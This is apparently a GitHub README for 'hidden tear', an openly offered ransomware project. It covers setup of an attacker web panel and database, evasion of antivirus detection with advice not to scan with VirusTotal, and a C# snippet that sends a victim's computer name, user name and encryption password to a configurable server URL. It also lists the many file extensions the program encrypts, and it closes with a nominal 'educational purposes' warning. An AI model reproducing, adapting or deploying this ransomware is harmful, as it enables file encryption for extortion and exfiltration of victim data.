          _     _     _     _              _                  
        | |   (_)   | |   | |            | |                 
        | |__  _  __| | __| | ___ _ __   | |_ ___  __ _ _ __ 
        | '_ \| |/ _` |/ _` |/ _ \ '_ \  | __/ _ \/ _` | '__|
        | | | | | (_| | (_| |  __/ | | | | ||  __/ (_| | |   
        |_| |_|_|\__,_|\__,_|\___|_| |_|  \__\___|\__,_|_|   
                                                     
It's a ransomware-like file crypter sample which can be modified for specific purposes. 

**Features**
* Uses AES algorithm to encrypt files.
* Sends encryption key to a server.
* Encrypted files can be decrypt in decrypter program with encryption key.
* Creates a text file in Desktop with given message.
* Small file size (12 KB)
* Doesn't detected to antivirus programs (15/08/2015) http://nodistribute.com/result/6a4jDwi83Fzt - Do not scan with virus total or similar
* This project was updated by Virgula0 and coded by Uktu Sen 
- New features:
* A new advanced server script was added that saves data into database
* All informations are sent if there is an internet connection and the ransomware wait for it if there isn't.
* You can see all target information with Server Attacker panel
* Script can also send you an email with datas
* It can encrypt also exe files and it doesn't get collisions with other processes now
* It encrypt now a lot of files with a lot of extensions more and changing desktop icon with information about hacking attack
* Hidden Tear decryptor now advise if files have been decrypted or not.
* Hidden Tear Decryptor now is able to decrypt the same directories of hidden-tear ransomware.
* Hidden tear change default windows icon of desktop if decrypted is succesfully finished.
* A bug that could delete a part of passcode while sending has been removed.

***************************************************************************************************************************
* If you want , you can send some BTC for this re-work and support me, thank you!
* Address: 1HfwYmCDiHYRxzcbpDf7vSKfv8g9Y1MgpW	| Or you can scan qr code named donation_btc_address.png in the main path *
* Or paypal: https://paypal.me/Virgula																					  *
* Thank You!																											  *
***************************************************************************************************************************

**Demonstration Video**

https://www.youtube.com/watch?v=0IvD9Sky9as

Warning: in that video wasn't shown the attacker panel but only the key saved into the file to make the video lasts less.

**Usage**

* You need to have a web server which supports php scripting language. Change this line with your URL. (You better use Https connection to avoid eavesdropping)

  `string targetURL = "https://www.example.com/Server/write.php";`

  * Default Username and password for webpanel (in check.php file) are -> Username: test | Password: test
  * Import sql table in your database importing the file: import.sql
  * Set you database credetials in the file: connect_db.php
  * If you want also write a file for every virus execution go to file: write.php and uncomment from the line 37 to 43. For privacy of information this is not recommended
  * Set your email to get information also by email (don't write your PERSONAL email) in line  47 of file write.php

* The script should writes the GET parameter into a database and if you want into a text file. Sending process running in `SendPassword()` function

  ```
        string info = "?computer_name=" + computerName + "&userName=" + userName + "&password=" + password + "&allow=ransom";
        var fullUrl = targetURL + info;
        var conent = new System.Net.WebClient().DownloadString(fullUrl);
  
  ```
* Target file extensions can be change. Default list:
```
var validExtensions = new[]{".txt", ".jar", ".exe", ".dat", ".contact" , ".settings", ".doc", ".docx", ".xls", ".xlsx", ".ppt", ".pptx", ".odt", ".jpg", ".png", ".csv", ".py", ".sql", ".mdb", ".sln", ".php", ".asp", ".aspx", ".html", ".htm", ".xml", ".psd" , ".pdf" , ".dll" , ".c" , ".cs", ".mp3" , ".mp4", ".f3d" , ".dwg" , ".cpp" , ".zip" , ".rar" , ".mov" , ".rtf" , ".bmp" , ".mkv" , ".avi" , ".apk" , ".lnk" , ".iso", ".7-zip", ".ace", ".arj", ".bz2", ".cab", ".gzip", ".lzh", ".tar", ".uue", ".xz", ".z", ".001", ".mpeg", ".mp3", ".mpg", ".core", ".crproj" , ".pdb", ".ico" , ".pas" , ".db" ,  ".torrent" };
```

* PLEASE DON'T ADD .INI EXTENSION BECAUSE THE CONFILCT WITH THIS FILES WILL CRASH YOUR SCRIPT
* In this new re-upload there is a function that wait for internet connection before to send password to the database:

	    ```
        //check for internet connection
        public static bool CheckForInternetConnection()
        {
            try
            {
                using (var client = new WebClient())
                {
                    using (var stream = client.OpenRead("https://www.google.com"))
                    {
                        return true;
                    }
                }
            }
            catch
            {
                return false;
            }
        }
		```

**Legal Warning** 

While this may be helpful for some, there are significant risks. hidden tear may be used only for Educational Purposes. Do not use it as a ransomware! You could go to jail on obstruction of justice charges just for running hidden tear, even though you are innocent.
